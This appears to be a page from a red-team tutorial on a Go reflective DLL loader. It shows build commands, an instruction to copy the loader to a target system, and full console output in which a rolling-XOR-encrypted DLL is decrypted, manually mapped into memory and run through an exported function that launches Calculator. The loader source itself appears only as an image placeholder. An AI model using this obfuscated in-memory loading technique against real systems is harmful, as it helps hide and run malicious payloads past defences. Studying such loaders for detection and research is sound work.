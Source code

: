 

## Instructions
- Compile the new application.

```shell
GOOS=windows GOARCH=amd64 go build  
```

- Then copy it over to target system and invoke from command-line, providing as argument now the `.xor` we’d like to decrypt + run,

```bash
".\reflect_roll.exe .\calc_dll.rkd.xor"  
```


## Results
```go
PS C:\Users\vuilhond\Desktop> .\reflect_roll.exe .\calc_dll.rkd.xor
[+] Starting Manual DLL Mapper (with IAT Resolution)...
[+] Placeholder Timestamp: 1712345678
[+] Placeholder ClientID: MyTestClient-9876
[+] Deriving decryption key...
    Shared Secret (generated): pmaSk-elv-yeeula�nm
    Final Key (derived, Hex): 706D61536B2D656C762D796565756C618B6E196D313731323334353637384D79
[+] Reading file: .\calc_dll.rkd.xor
[+] Read 111493 obfuscated bytes from file.
[+] Decrypting file content using Rolling XOR key...
[+] Decryption complete. Resulting size: 111493 bytes.
[+] Parsed PE Headers successfully.
[+] Target ImageBase: 0x26A5B0000
[+] Target SizeOfImage: 0x22000 (139264 bytes)
[+] Allocating 0x22000 bytes of memory for DLL...
[+] DLL memory allocated successfully at actual base address: 0x26A5B0000
[+] Copying PE headers (1536 bytes) to allocated memory...
[+] Copied 1536 bytes of headers successfully.
[+] Copying sections...
[+] All sections copied.
[+] Checking if base relocations are needed...
[+] Image loaded at preferred base. No relocations needed.
[+] Processing Import Address Table (IAT)...
[+] Import processing complete (7 DLLs).
[+] Locating and calling DLL Entry Point (DllMain)...
[+] Entry Point found at RVA 0x1330 (VA 0x26A5B1330).
[+] Calling DllMain(0x26A5B0000, DLL_PROCESS_ATTACH, 0)...
    [+] DllMain executed successfully (returned TRUE).
[+] Locating exported function: LaunchCalc
[+] Export Directory found at RVA 0x8000
    NumberOfNames: 1, NumberOfFunctions: 1
[+] Searching Export Name Pointer Table (ENPT)...
    [+] Found target function name 'LaunchCalc' at index 0.
        Ordinal: 0
        Function RVA: 0x1491
[+] Target function 'LaunchCalc' located at VA: 0x26A5B1491
[+] Calling target function 'LaunchCalc' at 0x26A5B1491...
    [+] Exported function 'LaunchCalc' executed successfully (returned TRUE).
        ==> Check if Calculator launched! <==

[+] ===== FINAL LOADER STATUS =====
[+] Manual mapping & execution process complete.
[+] Self-Check Suggestion:
    - Verify console output shows successful completion of all stages (Parse, Alloc, Map, Reloc Check, IAT, DllMain, Export Call).
    - PRIMARY CHECK: Verify that 'calc.exe' was launched successfully!
```